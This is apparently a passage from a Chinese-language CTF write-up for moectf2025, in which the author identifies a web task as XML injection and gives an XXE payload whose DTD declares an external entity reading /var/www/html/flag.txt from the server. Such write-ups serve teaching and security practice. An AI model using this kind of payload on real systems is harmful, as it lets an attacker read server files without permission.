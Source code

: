 ![image.png](../../assets/images/moectf2025wp/image_9.png)

根据输出内容，猜测本题考察**XML注入（关于XML注入，参考：**[www.cnblogs.com/backlion/p/9302528.html](http://www.cnblogs.com/backlion/p/9302528.html)）在DTD里构造外部引用实体可得 Flag

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE Anything [
<!ENTITY file SYSTEM "file:///var/www/html/flag.txt">
]>
<输出>&file;</输出>
```
